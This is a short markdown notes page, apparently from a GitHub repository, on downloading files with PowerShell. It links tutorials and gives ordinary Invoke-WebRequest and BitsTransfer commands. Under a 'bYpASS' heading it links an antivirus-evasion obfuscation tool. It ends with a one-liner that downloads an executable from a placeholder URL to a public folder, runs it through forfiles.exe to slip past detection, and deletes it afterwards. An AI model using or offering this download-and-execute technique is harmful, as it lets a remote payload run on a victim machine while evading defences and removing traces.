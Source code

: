 
<p align="center">
  <body>

    <img src="https://i.gifer.com/6Dg.gif" width="500" height="600">
  </body>
</p>


## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
